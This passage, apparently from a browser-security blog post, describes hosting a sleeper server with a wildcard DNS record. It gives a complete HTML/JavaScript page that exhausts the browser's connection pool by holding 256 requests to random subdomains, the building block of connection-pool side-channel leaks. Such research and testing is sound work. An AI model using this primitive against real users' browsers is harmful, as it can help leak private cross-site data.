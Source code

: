 For the first step we need to host a sleeper webapp which will just help us have a pending request for N time we choose, it can be easily implemented in a lot of ways and won’t go into the details [ref1](#server-js) [ref2](https://blog.babelo.xyz/posts/css-exfiltration-under-default-src-self/#go-server).

After hosting a simple sleeper and setup a wildcard A record for `*.yourdomain.tld` pointing to the same IP.

You can then host this HTML somewhere to do some hands‑on testing.

{{< details summary="code" >}}
```html
<!DOCTYPE html>
<html lang="en">

<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Document</title>
</head>

<body>
    <button id="fillpool" onclick="fillPool(MAX_SOCKET)">Fill the pool</button>
    <button id="add_conn" onclick="createConn()">Add 1 more connection</button>
    <button id="release_conn" onclick="releaseConn()"> Release 1 connection </button>
    <button id="release_All" onclick="releaseConn(window.count)"> Release All connection </button>
    <textarea id="log"> </textarea>
    <script>
        const MAX_SOCKET = 256
        const MYSERVER = '0xalessandr0.me'
        window.socketControllers = []
        window.count = 0;

        function log(string) {
            document.querySelector('#log').textContent += string
        }

        function createConn(prefix) {
            let unique = prefix ?? (Math.random() + 1).toString(36).substring(7);
            let controller = new AbortController();
            fetch(`http://${unique}.${MYSERVER}/hold`, {
                mode: 'no-cors',
                signal: controller.signal
            });
            window.socketControllers.push(controller);
            window.count++;
        }

        function fillPool(maxval) {
            log('\nFilling pool\n')
            for (let i = 0; i < maxval; i++) {
                createConn()
            }
            log('\nShould have finished\n')
        }

        function releaseConn(n = 1) {
            log(`Releasing ${n} connections\n`)
            for (let i = 0; i < n; i++) {
                window.socketControllers.shift().abort()
                window.count--;
            }
        }

    </script>
```
